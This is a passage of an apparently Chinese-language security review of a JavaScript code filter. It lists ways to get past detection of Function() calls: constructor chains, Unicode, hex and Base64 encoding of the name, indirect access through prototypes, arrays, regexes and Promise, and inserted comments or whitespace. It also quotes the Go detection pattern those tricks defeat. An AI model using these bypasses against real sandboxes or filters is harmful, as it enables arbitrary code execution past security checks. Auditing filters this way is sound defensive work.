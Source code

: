 ```javascript

// ✅ 绕过检测：构造器链
({}).constructor.constructor('return this')();
```

### 3. 编码绕过

#### 绕过方式
```javascript
// ✅ 使用 Unicode 编码
var F = '\u0046\u0075\u006e\u0063\u0074\u0069\u006f\u006e';
globalThis[F]('return this')();

// ✅ 使用 Hex 编码
var F = String.fromCharCode(70,117,110,99,116,105,111,110);
globalThis[F]('return this')();

// ✅ 使用 Base64
var F = atob('RnVuY3Rpb24=');
globalThis[F]('return this')();
```

### 4. 间接执行绕过

#### 绕过方式
```javascript
// ✅ 通过对象原型
var proto = Object.getPrototypeOf({});
var ctor = proto.constructor;
ctor.constructor('malicious code')();

// ✅ 通过数组方法
[].constructor.constructor('return this')();

// ✅ 通过正则表达式
/x/.constructor.constructor('return this')();

// ✅ 通过 Promise
Promise.constructor.constructor('return this')();
```

### 5. 注释和空白字符绕过

#### 当前检测
```go
{"Function(", "..."}
```

#### 绕过方式
```javascript
// ✅ 添加空格
Function /*comment*/ ('return this')();

// ✅ 换行符
Function
('return this')();

// ✅ Tab 和其他空白
Function	('return this')();
```

---
